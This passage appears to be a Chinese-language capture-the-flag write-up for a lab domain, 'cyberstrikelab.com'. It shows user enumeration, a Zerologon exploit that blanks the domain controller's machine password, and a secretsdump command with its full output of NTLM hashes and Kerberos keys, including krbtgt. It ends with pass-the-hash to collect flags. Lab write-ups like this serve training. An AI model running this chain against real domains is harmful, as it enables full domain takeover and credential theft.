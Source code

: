 ```  
  
此时连一个域账号也没有，正常来说从域外进入域内有这么几种思路：Ldap匿名访问；域用户枚举；CVE漏洞利用  
等手段。最开始尝试连接ldap，但是没有东西。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LtPy9FCOnrdqB1ibSquObljSpQibjuG4kmyqK8icOpkI8JbvrHibwtnK4Y67Uyad9NichiaMfg9e4rYUEeejT3wZBJyQ/640?wx_fmt=png&from=appmsg "null")  
  
  
尝试去枚举用户名，果然发现了不一样的地方，存在cslab和tom这两个账户  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LtPy9FCOnrdqB1ibSquObljSpQibjuG4kmwHaZSJibKgdnSgGsvRx6Eb02yJcrtZZo83q8TfvhRIiaOIQZSNR1vbVg/640?wx_fmt=png&from=appmsg "null")  
  
  
尝试使用AS-REP Roasting看看，发现不太行  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LtPy9FCOnrdqB1ibSquObljSpQibjuG4kmbhdzgC9PdJVmicjSDjsibic6ZEDN9LsuwFUqu6VNvAEFGhFPJWu7WyJ5g/640?wx_fmt=png&from=appmsg "null")  
  
  
就去挂着去爆破了，接着尝试了很多姿势，发现zerologon是可以打的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LtPy9FCOnrdqB1ibSquObljSpQibjuG4kmzG5Vsl3b5iadUba8ytaxc1qQQh44cheiaUBkyfyc1Ce5l7ddk2j1f2HQ/640?wx_fmt=png&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LtPy9FCOnrdqB1ibSquObljSpQibjuG4km7ukkn7UHX4icCtJtaQ1B3IXLNFFJgeeDlNFXecUnTzgUMJGrUmapHXA/640?wx_fmt=png&from=appmsg "null")  
  
  
直接置空机器密码，dump出hash值  
```
proxychains python secretsdump.py cyberstrikelab.com/DC\$@10.0.60 -no-pass
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/LtPy9FCOnrdqB1ibSquObljSpQibjuG4kmtmGeNygGsRsuqZshSiaLjIdA5sTjVnHZhqjbZ2IBghcWJU8nM4t1Hhw/640?wx_fmt=png&from=appmsg "null")  
  
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7b50525da0ea9349b4c698bbe4868544:::Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::krbtgt:502:aad3b435b51404eeaad3b435b51404ee:914015901d379ce39700dfe66fb6b35d:::DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::cyberstrikelab.com\cslab:1106:aad3b435b51404eeaad3b435b51404ee:dac667db974d83b8892e44056066590e:::cyberstrikelab.com\Tom:1108:aad3b435b51404eeaad3b435b51404ee:2de5cd0f15d1c070851d1044e1d95c90:::DC$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::CYBERWEB$:1103:aad3b435b51404eeaad3b435b51404ee:9e83edba599dadac10fcf115f740b3d5:::[*] Kerberos keys grabbedAdministrator:aes256-cts-hmac-sha1-96:588ecc247a7ebbdb039016bc6ceda2bc81fc9d91ace90b31534220109b8095d6Administrator:aes128-cts-hmac-sha1-96:38d0f6f353cc92ea228d995071888094Administrator:des-cbc-md5:987f62c27cc49225krbtgt:aes256-cts-hmac-sha1-96:6829966a8dbb2cba19e7750b81c8e7c2b8d0852e04f5005c025ffc2c54c33835krbtgt:aes128-cts-hmac-sha1-96:fd511fa97c56fa8cfb168d8930af1731krbtgt:des-cbc-md5:e694709b4c3d7fe6cyberstrikelab.com\cslab:aes256-cts-hmac-sha1-96:422ed3eb152900be4b82cb8723fda1c165dd8de0fc391e7b495047ec0f1f7375cyberstrikelab.com\cslab:aes128-cts-hmac-sha1-96:c0f5a518ce81323271c7a025051918d2cyberstrikelab.com\cslab:des-cbc-md5:809da797df1fe97ccyberstrikelab.com\Tom:aes256-cts-hmac-sha1-96:28828e44919b9585e36d2589fab283c560344c7e6ab71a55c2758e410a653a47cyberstrikelab.com\Tom:aes128-cts-hmac-sha1-96:a42b775b632eab91fae18055794efdbdcyberstrikelab.com\Tom:des-cbc-md5:c70b0e2a979dd004DC$:aes256-cts-hmac-sha1-96:bf718fe6ea299affbc93f2f8a91d9f2ff7fe92d1073475335b24321dbaf26c5cDC$:aes128-cts-hmac-sha1-96:4ff3263bb77f8f250214fd5dd9228198DC$:des-cbc-md5:6eefc8018343380dCYBERWEB$:aes256-cts-hmac-sha1-96:2bea0015e7ae5ffac2c1742335b2af27b7735b83ca72636111ca5176e75ed935CYBERWEB$:aes128-cts-hmac-sha1-96:22844acfea6b75a8a196b3b8bd1b303bCYBERWEB$:des-cbc-md5:644fd37cb5a49edf
```  
  
直接hash传递，就获取到了两台主机的flag。  
  
预期解（猜测）  
```